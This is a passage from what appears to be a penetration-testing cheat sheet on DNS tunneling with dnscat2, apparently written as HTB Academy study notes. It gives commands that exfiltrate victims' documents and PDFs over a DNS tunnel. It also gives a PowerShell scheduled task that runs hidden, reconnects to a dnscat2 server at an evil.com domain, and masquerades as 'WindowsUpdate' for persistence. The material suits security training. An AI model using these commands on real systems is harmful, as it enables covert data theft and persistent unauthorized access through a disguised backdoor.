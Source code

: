 ### **DNS Tunneling + Data Exfiltration**
```bash
# Exfiltrate files through DNS tunnel
# On dnscat2 server session:
download C:\Users\admin\Documents\sensitive.docx /tmp/exfiltrated/

# Batch file exfiltration
for file in C:\Users\*\Documents\*.pdf; do
    download "$file" "/tmp/exfiltrated/"
done
```

### **DNS Tunneling + Persistence**
```powershell
# Create scheduled task for DNS tunnel reconnection
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-WindowStyle Hidden -Command 'Import-Module C:\temp\dnscat2.ps1; Start-Dnscat2 -DNSserver 10.10.14.18 -Domain evil.com -PreSharedSecret secret123'"
$trigger = New-ScheduledTaskTrigger -Daily -At 9am
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "WindowsUpdate" -Description "Windows Update Task"
```

---

## **References**

- **HTB Academy**: Pivoting, Tunneling & Port Forwarding - Page 12
- **Dnscat2 GitHub**: [Official Repository](https://github.com/iagox86/dnscat2)
- **Dnscat2-PowerShell**: [PowerShell Client](https://github.com/lukebaggett/dnscat2-powershell)
- **DNS Protocol**: [RFC 1035 - Domain Names](https://tools.ietf.org/html/rfc1035)
- **DNS Security**: [SANS DNS Security](https://www.sans.org/blog/dns-security-threats/) 